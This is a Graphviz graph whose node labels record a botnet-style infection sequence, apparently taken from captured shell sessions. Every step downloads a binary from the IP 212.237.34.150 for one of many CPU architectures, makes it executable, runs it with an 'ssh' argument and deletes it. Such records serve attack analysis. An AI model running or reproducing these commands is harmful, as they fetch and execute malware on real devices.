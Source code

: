 digraph {
0 [label="wget http://212.237.34.150/s-ket.arm "];
0 -> 0
82 [label="chmod 777 * "];
82 -> 4 [label=";,"];
4 [label="./s-ket.arm ssh "];
4 -> 85 [label=";,"];
85 [label="rm -rf s-ket.* "];
85 -> 8 [label=";,"];
8 [label="wget http://212.237.34.150/s-ket.arm5 "];
8 -> 8
82 [label="chmod 777 * "];
82 -> 12 [label=";,"];
12 [label="./s-ket.arm5 ssh "];
12 -> 85 [label=";,"];
85 [label="rm -rf s-ket.* "];
85 -> 16 [label=";,"];
16 [label="wget http://212.237.34.150/s-ket.arm6 "];
16 -> 16
82 [label="chmod 777 * "];
82 -> 20 [label=";,"];
20 [label="./s-ket.arm6 ssh "];
20 -> 85 [label=";,"];
85 [label="rm -rf s-ket.* "];
85 -> 24 [label=";,"];
24 [label="wget http://212.237.34.150/s-ket.arm7 "];
24 -> 24
82 [label="chmod 777 * "];
82 -> 28 [label=";,"];
28 [label="./s-ket.arm7 ssh "];
28 -> 85 [label=";,"];
85 [label="rm -rf s-ket.* "];
85 -> 32 [label=";,"];
32 [label="wget http://212.237.34.150/s-ket.m68k "];
32 -> 32
82 [label="chmod 777 * "];
82 -> 36 [label=";,"];
36 [label="./s-ket.m68k ssh "];
36 -> 85 [label=";,"];
85 [label="rm -rf s-ket.* "];
85 -> 40 [label=";,"];
40 [label="wget http://212.237.34.150/s-ket.mips "];
40 -> 40
82 [label="chmod 777 * "];
82 -> 44 [label=";,"];
44 [label="./s-ket.mips ssh "];
44 -> 85 [label=";,"];
85 [label="rm -rf s-ket.* "];
85 -> 48 [label=";,"];
48 [label="wget http://212.237.34.150/s-ket.mpsl "];
48 -> 48
82 [label="chmod 777 * "];
82 -> 52 [label=";,"];
52 [label="./s-ket.mpsl ssh "];
52 -> 85 [label=";,"];
85 [label="rm -rf s-ket.* "];
85 -> 56 [label=";,"];
56 [label="wget http://212.237.34.150/s-ket.ppc "];
56 -> 56
82 [label="chmod 777 * "];
82 -> 60 [label=";,"];
60 [label="./s-ket.ppc ssh "];
60 -> 85 [label=";,"];
85 [label="rm -rf s-ket.* "];
85 -> 64 [label=";,"];
64 [label="wget http://212.237.34.150/s-ket.sh4 "];
64 -> 64
82 [label="chmod 777 * "];
82 -> 68 [label=";,"];
68 [label="./s-ket.sh4 ssh "];
68 -> 85 [label=";,"];
85 [label="rm -rf s-ket.* "];
85 -> 72 [label=";,"];
72 [label="wget http://212.237.34.150/s-ket.spc "];
72 -> 72
82 [label="chmod 777 * "];
82 -> 76 [label=";,"];
76 [label="./s-ket.spc ssh "];
76 -> 85 [label=";,"];
85 [label="rm -rf s-ket.* "];
85 -> 80 [label=";,"];
80 [label="wget http://212.237.34.150/s-ket.x86 "];
80 -> 80
82 [label="chmod 777 * "];
82 -> 84 [label=";,"];
84 [label="./s-ket.x86 ssh "];
84 -> 85 [label=";,"];
}
